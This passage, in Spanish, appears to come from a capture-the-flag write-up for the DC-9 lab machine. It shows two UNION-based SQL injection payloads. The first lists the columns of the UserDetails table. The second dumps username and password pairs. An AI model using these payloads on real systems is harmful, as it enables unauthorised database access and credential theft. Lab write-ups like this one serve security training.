 Y veo que existe la tabla UserDetails, después paso a listar las columnas de esta tabla.

```sql
Mary' union select null,column_name,null,null,null,null from information_schema.columns where table_name='UserDetails'-- -

```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%204.png)

Obtengo las columnas id, firstname, lastname, username, password, y reg_date, por lo que solo queda listar el contenido de las columnas. con la siguiente consulta indico que se muestre los valores de las columnas username y password indicando la tabla que pertenece a la base de datos users.

```sql
Mary' union select  null,CONCAT(username, ":" ,password),null,null,null,null from users.UserDetails-- -
```
